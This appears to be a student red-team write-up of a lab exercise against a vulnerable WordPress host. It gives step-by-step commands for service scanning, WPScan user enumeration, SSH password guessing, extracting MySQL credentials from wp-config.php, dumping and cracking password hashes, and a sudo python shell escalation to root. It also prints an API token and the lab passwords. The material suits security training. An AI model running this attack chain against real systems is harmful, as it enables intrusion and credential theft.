

# Red Team: Summary of Operations

## Table of Contents

**Target 1**

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for **Target 1**  revealed the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

This scan identifies the services below as potential points of entry:
- **Target 1**
  
  - `Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4`
  
  - `Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))`
  
  - `Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)`
  
  - `Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X`
  
  - `Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X`
  
    

The following vulnerabilities were identified on **Target 1**:
- **Target 1**
  - Commands:	
    - `nmap -sV --script=vulners -v 192.168.1.110 `
    - `nmap -v --script vuln 192.168.1.110`
  - See all identified vulnerabilities [here](Resources/raw.bash), the document provides links to the description of the vulnerabilities and their severity. 

**Notable Vulnerabilities**

- User Enumeration (WordPress site)
- Weak User Password
- Unsalted User Password Hash (WordPress database)
- Misconfiguration of User Privileges/Privilege Escalation

**Respective CVE`s**

- [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
- [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
- [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://hackerone.com/reports/791893)
- [CVE-2017-7494 Samba NetBIOS](https://www.samba.org/samba/security/CVE-2017-7494.html)
- [CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer)](https://nvd.nist.gov/vuln/detail/CVE-2016-10033)

### Exploitation

**The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:**

**Target 1**

**Flag 1**: `{b9bbcb33e11b80be795c4e844862482d}` & **Flag 2**: `{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **Exploit Used**
  - Enumerated WordPress site Users with WPScan
  - command used: `wpscan --api-token Y5qIPUHXfZzgm6ng6LEWs59CCzhDzsTg1C9xwoRlF0s --url http://192.168.1.110/wordpress -eu`
  - Enumerating the WordPress site gave us the usernames `michael` and  `steven` which we used to gain access to the webserver. 

**Next we tried to get a user shell by using SSH, we picked Michael`s account and guessed his Password.**

- Command used:  `ssh michael@192.168.1.110`
- Password: We tried with his name `michael` (it worked!)

- Changing to root directory and launching a search for the flags.
  - Command used:  `cd /` 
  - Command used: `find -name flag* |& grep -v find`

- **Flag 2** was discovered. And we changed directories to the location we found it in.
  - Command used: `cd /var/www`

- While in the www dictionary we ran another grep command to check for flags in the "html" directory.
  - Command used: `grep -RE flag html`

**Flag 3**: `{afc01ab56b50591e7dccf93122770cd2}` & **Flag 4**: `{715dea6c055b9fe3337544932f2941ce}`

**Next we searched for the MySQL Database password and found the `wp-config.php` file.**

- Command used: `cd /var/www/html/wordpress/`
- Command used: `cat wp-config,php`

**The cat command revealed following information:**

- **DB_NAME:** `wordpress`
- **DB_USER:** `root`
- **DB_PASSWORD:** `R@v3nSecurity`

**Next step was to login into the MySQL Database and search for Flags and WordPress user password hashes.**

- Command used: `mysql -u root -p` input password `R@v3nSecurity`
- Command used: `show databases;`
- Command used: `use wordpress;`
- Command used: `show tables;`
- Command used: `select wp_posts;`
- Command used: `select * from wp_users;` where we found the WordPress user password hashes
- Command used: `select * from wp_posts;` where we found **Flag 3** and **Flag 4**

| ID   | user_login | user_pass                          | user_nicename | user_email                                    | user_url | user_registered     | user_activation_key | user_status | display_name   |
| ---- | ---------- | ---------------------------------- | ------------- | --------------------------------------------- | -------- | ------------------- | ------------------- | ----------- | -------------- |
| 1    | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | [michael@raven.org](mailto:michael@raven.org) |          | 2018-08-12 22:49:12 |                     | 0           | michael        |
| 2    | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | [steven@raven.org](mailto:steven@raven.org)   |          | 2018-08-12 23:31:16 |                     | 0           | Steven Seagull |

**The next step was to crack Steven`s password hash to gain access to his account, we did so with the use of John the Ripper John the Ripper**

We created a file called `wp_hashes.txt` on the Kali machine in the `/root` directory and ran the program.

- Command used: `john wp_hashes.txt`

- Command used: `john --show wp_hashes.txt`

**With Stevens password we secured a user shell, checked for sudo privileges and escalated them via a python script. We then discovered a file which revealed `Flag 4`**

- Command used: `ssh steven@192.168.1.110` ; Password: `pink84`
- Command used: `sudo -l`
- Command used: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`

- Command used: `cd /root ` (to search for the flag)
- Command used: `ls & cat flag4.txt`

----

